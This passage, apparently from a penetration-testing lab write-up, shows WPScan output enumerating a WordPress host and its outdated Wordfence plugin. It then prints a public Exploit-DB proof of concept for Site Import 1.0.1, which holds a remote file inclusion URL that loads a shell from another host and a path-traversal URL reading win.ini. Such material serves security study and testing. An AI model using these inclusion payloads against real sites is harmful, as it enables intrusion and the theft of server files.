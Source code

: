 ```
 | Found By: Style (Passive Detection)
 |  - http://10.14.1.3/wp-content/themes/maggie-lite/style.css?ver=1.0.24, Match: 'Version: 1.0.24'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wordfence
 | Location: http://10.14.1.3/wp-content/plugins/wordfence/
 | Last Updated: 2023-07-31T13:45:00.000Z
 | [!] The version is out of date, the latest version is 7.10.3
 |
 | Found By: Javascript Var (Passive Detection)
 |
 | Version: 6.3.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.14.1.3/wp-content/plugins/wordfence/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.14.1.3/wp-content/plugins/wordfence/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <==================================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Aug 13 11:58:33 2023
[+] Requests Done: 172
[+] Cached Requests: 5
[+] Data Sent: 47.321 KB
[+] Data Received: 365.786 KB
[+] Memory used: 267.852 MB
[+] Elapsed time: 00:00:19                        
```

Reviewing the site-import exploit:  
```
┌──(autorecon)─(kali㉿kali)-[/usr/…/exploitdb/exploits/php/webapps]
└─$ cat 39558.txt
# Exploit Title: Wordpress Site Import 1.0.1 | Local and Remote file inclusion
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/site-import.1.0.1.zip
# Version: 1.0.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
/wp-content/plugins/site-import/readme.txt
======================================
[PoC]
======================================
Remote File Inclusion == http://localhost/wordpress/wp-content/plugins/site-import/admin/page.php?url=http%3a%2f%2flocalhost%2fshell.php?shell=ls
Local File Inclusion == http://localhost/wordpress/wp-content/plugins/site-import/admin/page.php?url=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini
======================================                                                                                                                                 
┌──(autorecon)─(kali㉿kali)-[/usr/…/exploitdb/exploits/php/webapps]
```